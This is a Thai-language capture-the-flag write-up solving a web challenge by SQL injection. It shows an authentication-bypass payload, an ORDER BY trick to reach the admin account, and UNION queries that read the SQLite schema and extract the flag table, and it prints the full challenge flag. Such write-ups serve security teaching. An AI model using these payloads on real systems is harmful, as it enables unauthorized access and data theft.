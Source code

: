 ```yaml
---
title: THCTT Qualifier (Junior) - Un-Injectable
published: 2024-09-29
image: 'cover.png'
tags: ['Thailand Cyber Top Talent', 'Web Security']
category: 'CTF-Writeup'
draft: false 
language: 'th'
---
```


:::note
โจทย์ระดับ**ปานกลาง**ของหมวดหมู่ Web Application ที่มีคน Solve ได้น้อยมากถ้าเทียบกับข้อแรก
:::

ผมจำไม่ได้ว่าคำอธิบายโจทย์มันบอกมาว่ายังไง

แต่เมื่อเข้าเว็บไป จะมี Hint ให้ เมื่อเราดูโค้ดของเว็บ

วิธีก็คือ F12 หรือ คลิกขวาแล้วกดตรวจสอบ

![alt text](image-1.png)

![alt text](image.png)

### Hint
1. FLAG จะแบ่งเป็น 2 ส่วน
2. ส่วนแรกจะอยู่ในฐานข้อมูล
3. ส่วนสองจะโชว์เมื่อเราเข้าสู่ระบบในฐานะผู้ดูแลระบบ
4. ให้แหล่งข้อมูลเกี่ยวกับวิธีการ SQL Injection มาด้วย

ซึ่งเราก็รู้แล้วแน่ๆ แหละว่าต้อง SQL Injection

ซึ่ง Payload ที่ผมใช้ประจำเวลาเล่น ctf ก็คือ `' or 1--`

ความหมายคือ ถ้าการ Query ข้อมูลของระบบเป็นรูปแบบนี้
```sql
SELECT * FROM users WHERE username = '$username' AND password = '$password'
```

เมื่อเรา input ข้อมูล `$username` เป็น `' or 1--` และ `$password` เป็นอะไรก็ได้ ซึ่งผมจะกรอกเป็น `a` มันก็จะไปแทนที่ ตัวแปรนั้นเลย ตัวคำสั่ง `$query` สุดท้าย เลยได้กลายเป็น
```sql
SELECT * FROM users WHERE username = '' or 1--' AND password = 'a'
```
ซึ่งเราจะเห็นว่า ตัวอักษรหลังจากเลข 1 มันจะถูก comment ไว้ เนื่องจาก เครื่องหมาย `--` คือการ comment ทั้งบรรทัดหลังจากตัวมัน

ซึ่ง `1` ใน ภาษา SQL มันจะตีความว่าเป็น**จริง** และเราใช้ `or` เงื่อนไขมันเลยเป็นจริงตลอด แม้ว่าเงื่อนไขข้างหน้าจะเป็น `FALSE` ตลอดก็ตาม

พูดง่ายๆ ในภาษาตรรกศาสตร์มันก็คือ `FALSE or TRUE` ซึ่งมันก็คือ `TRUE` นั่นเอง

เมื่อผมกรอกเข้าไป

![alt text](image-3.png)

ระบบก็จะแจ้งมาว่า

![alt text](image-2.png)

แสดงว่า เรา SQL Injection ติดแล้ว แต่ทำไม เรายังไม่ได้ FLAG ส่วนที่สอง ในเมื่อระบบก็รู้แล้วว่าเราเข้าสู่ระบบได้แล้ว

longcat คงไม่ได้เป็นผู้ดูแลระบบแหละ

ผมก็เลยแก้ Payload ใหม่ เป็น `' or 1 ORDER BY 2--`

`ORDER BY 2` ที่ผมเพิ่มขึ้นมา มันหมายความว่า มันจะเรียงตาม column ที่ 2 ซึ่ง เมื่อผมเรียงแบบนี้ จึงบังเอิญเจอ account ผู้ดูแลระบบเลย (จริงๆผมก็ไล่ตั้งแต่เลข 1)

![alt text](image-4.png)

เราได้ FLAG ส่วนสองแล้ว `641b630624f2c6c9}`

มาหาส่วนแรกกัน ซึ่งที่โจทย์ใบ้มาคือ เราต้องไปหาใน database

วิธีการก็คือ เราจะ union ข้อมูลมันออกมา

ข้ออ้างอิงพื้นฐานการ union ไว้ที่นี่แล้วกัน https://www.thaicreate.com/tutorial/sql-union.html

เรามาเริ่มกันเลย
ผมจะปรับ Payload เป็น `' AND 0 union select 1--` ก็คือ เงื่อนไขส่วนหน้า จะเป็น `FALSE` ทุกกรณี เนื่องจาก `AND 0` ที่ผมเพิ่มขึ้นมา เพราะ `0` ใน SQL มันตีความเป็น**เท็จ**นะ

เปรียบเป็นตรรกศาสตร์ ก็คือ `WHATEVER and FALSE` ก็จะกลายเป็น `FALSE` เสมอ ไม่ว่าข้างหน้าจะเป็นอะไรก็ตาม

เมื่อเราจินตนาการเป็นคำสั่ง SQL เต็มๆ จะได้เป็น

```sql
SELECT * FROM users WHERE username = '' AND 0 union select 1--' AND password = 'a'
```

ซึ่งเงื่อนไขของการ union ก็คือ เราต้อง union column ให้ครบเท่าข้างหน้า แต่เราไม่รู้ว่า column ข้างหน้าอะ มันมีกี่ column ซึ่งผมก็เลยเพิ่มจำนวน column ท่ีเรา union เข้าไปเพิ่มขึ้นเรื่อยๆ จนมันหาย error

```
' AND 0 union select 1--     error
' AND 0 union select 1,2--   error
' AND 0 union select 1,2,3-- fine
```
![alt text](image-12.png)
![alt text](image-5.png)

โอเค ผมเจอแล้ว มีทั้งหมด 3 column และเราจะพบว่า column ที่สอง จะถูกพ่นออกมาแสดงผลให้เรา

แต่ถ้าเราไม่เชื่อในตัวเอง ลองเปลี่ยนดู

```sql
' AND 0 union select 1,"biu2 pwned",3--
```

![alt text](image-11.png)

![alt text](image-6.png)

ของแทร่ๆๆ

ต่อไป ผมจะดูโครงสร้างของฐานข้อมูลนี้​ ซึ่งผมหวังว่าจะเจอที่เก็บ FLAG ที่แท้จริง
ด้วยการหาจาก sqlite_schema

sqlite_schema คือที่เก็บข้อมูลโครงสร้างของฐานข้อมูล SQLite

ซึ่งจะมี column ชื่อ sql เป็นที่ๆ เก็บคำสั่ง SQL ที่ใช้สร้างโครงสร้างต่างๆขึ้นมา

ถ้าไม่เข้าใจว่ามันคืออะไร ไปตามได้ที่ https://www.sqlite.org/schematab.html

```sql
' AND 0 union SELECT 1,sql,3 FROM sqlite_schema--
```
![alt text](image-10.png)

เราก็จะเจอเข้ากับ

![alt text](image-7.png)

ที่เก็บ FLAG ส่วนแรก ซึ่งจะอยู่ที่ ตาราง flag และ column flag

เราก็มาเอา FLAG ส่วนแรกกันเลย จะได้ Payload เป็น

```sql
' AND 0 union SELECT 1,flag,3 FROM flag--
```

![alt text](image-8.png)

![alt text](image-9.png)

เย่ ได้ส่วนแรกแล้ว `THCTT24{48c736ac07c5e803`

เราก็นำมาต่อกันได้เลย

`THCTT24{48c736ac07c5e803641b630624f2c6c9}`